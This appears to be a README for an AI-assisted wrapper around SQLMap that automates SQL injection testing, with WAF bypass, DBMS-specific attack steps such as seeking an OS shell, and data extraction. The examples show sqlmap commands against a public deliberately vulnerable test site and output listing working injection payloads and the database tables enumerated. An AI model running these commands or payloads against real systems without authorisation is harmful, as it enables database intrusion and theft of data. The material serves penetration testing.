

# SQLMap AI Assistant

An AI-powered wrapper around SQLMap that makes SQL injection testing more accessible and automated.

## Features

- AI-assisted SQL injection testing
- Automated result analysis and next step suggestions
- User-friendly output and reporting
- **NEW: Adaptive step-by-step testing with DBMS-specific optimizations and WAF bypass**

## Requirements

- Python 3.7+
- SQLMap
- Required Python packages (see requirements.txt)

## Usage

Create a `.env` file in the root directory with the following variables:

You can get a Groq API key by signing up at [https://console.groq.com](https://console.groq.com).

```bash
# Required
GROQ_API_KEY=your_groq_api_key
```

```bash
podman build -t sqlmap-grok .
podman run -it --name sqlmap-grok sqlmap-grok
cd sqlmap-ai
```

### Standard Mode

Run the assistant in standard mode:

```bash
python run.py
```

### Adaptive Testing Mode

Run the assistant in adaptive step-by-step testing mode:

```bash
python run.py --adaptive
```

The adaptive mode will:

1. **Initial Target Assessment** - Check if the target is vulnerable to SQL injection
2. **DBMS Identification** - Identify the database management system type
3. **DBMS-Specific Optimization** - Tailored attack based on detected DBMS:
   - MySQL: Extract databases and tables
   - MSSQL: Try to gain OS shell access
   - Oracle: Use specialized Oracle techniques
   - PostgreSQL: Customized PostgreSQL attack vectors
4. **Adaptive WAF Bypass** - Dynamically select tamper scripts based on WAF detection
5. **Data Extraction** - Extract sensitive information from databases
6. **Alternative Input Testing** - Test POST parameters, cookies, and headers

## Examples



### Testing a vulnerable web application

```bash
python run.py --adaptive
# Enter target URL: http://testphp.vulnweb.com/artists.php?artist=1
```

### Testing with increased timeout

```bash
python run.py --adaptive
# Enter target URL: http://example.com/page.php?id=1
# Enter timeout in seconds: 300
```

### Example output
```plaintext
success: True
partial: True
message: Found databases but unable to enumerate tables. The database might be empty or protected.
databases_found: ['acuart', 'information_schema']

Scan History:

Step: initial_assessment
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbs --threads=5

Step: dbms_specific_scan
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbms=mysql --tables --threads=5

Step: high_risk_testing
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --risk=3 --level=5

Step: high_risk_tables
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --tables --risk=3 --level=5
```

```json
{
  "timestamp": 1743273810,
  "scan_info": {
    "vulnerable_parameters": [
      "cat"
    ],
    "techniques": [
      "MySQL"
    ],
    "databases": [],
    "tables": [],
    "columns": {},
    "dbms": "MySQL >= 8.0.0",
    "os": "Linux Ubuntu",
    "waf_detected": false,
    "web_app": [
      "PHP 5.6.40",
      "Nginx 1.19.0"
    ],
    "payloads": [
      "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
      "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
      "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
      "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
    ],
    "raw_result": "        ___\n       __H__\n ___ ___[)]_____ ___ ___  {1.9.3.4#dev}\n|_ -| . [(]     | .'| . |\n|___|_  [\"]_|_|_|__,|  _|\n      |_|V...       |_|   https://sqlmap.org\n\n[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program\n\n[*] starting @ 19:43:25 /2025-03-29/\n\n[19:43:27] [INFO] testing connection to the target URL\nsqlmap resumed the following injection point(s) from stored session:\n---\nParameter: cat (GET)\n    Type: boolean-based blind\n    Title: Boolean-based blind - Parameter replace (original value)\n    Payload: cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))\n\n    Type: error-based\n    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)\n    Payload: cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)\n\n    Type: time-based blind\n    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)\n    Payload: cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)\n\n    Type: UNION query\n    Title: Generic UNION query (NULL) - 11 columns\n    Payload: cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -\n---\n[19:43:28] [INFO] testing MySQL\n[19:43:28] [INFO] confirming MySQL\n[19:43:28] [INFO] the back-end DBMS is MySQL\nweb server operating system: Linux Ubuntu\nweb application technology: PHP 5.6.40, Nginx 1.19.0\nback-end DBMS: MySQL >= 8.0.0\n[19:43:28] [INFO] fetching tables for database: 'acuart'\nDatabase: acuart\n[8 tables]\n+-----------+\n| artists   |\n| carts     |\n| categ     |\n| featured  |\n| guestbook |\n| pictures  |\n| products  |\n| users     |\n+-----------+\n\n[*] ending @ 19:43:28 /2025-03-29/\n",
    "url": "",
    "extracted": {}
  },
  "scan_history": [
    {
      "step": "initial_assessment",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbs --threads=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [
          "acuart",
          "information_schema"
        ],
        "tables": [],
        "columns": {},
        "dbms": "MySQL 8",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "PHP 5.6.40",
          "Nginx 1.19.0"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    },
    {
      "step": "dbms_specific_scan",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbms=mysql --tables --threads=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [],
        "tables": [],
        "columns": {},
        "dbms": "MySQL >= 8.0.0",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "PHP 5.6.40",
          "Nginx 1.19.0"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    },
    {
      "step": "high_risk_testing",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --risk=3 --level=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [
          "acuart",
          "information_schema"
        ],
        "tables": [],
        "columns": {},
        "dbms": "MySQL >= 8.0.0",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "Nginx 1.19.0",
          "PHP 5.6.40"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    },
    {
      "step": "high_risk_tables",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --tables --risk=3 --level=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [],
        "tables": [],
        "columns": {},
        "dbms": "MySQL >= 8.0.0",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "PHP 5.6.40",
          "Nginx 1.19.0"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    }
  ]
}
```

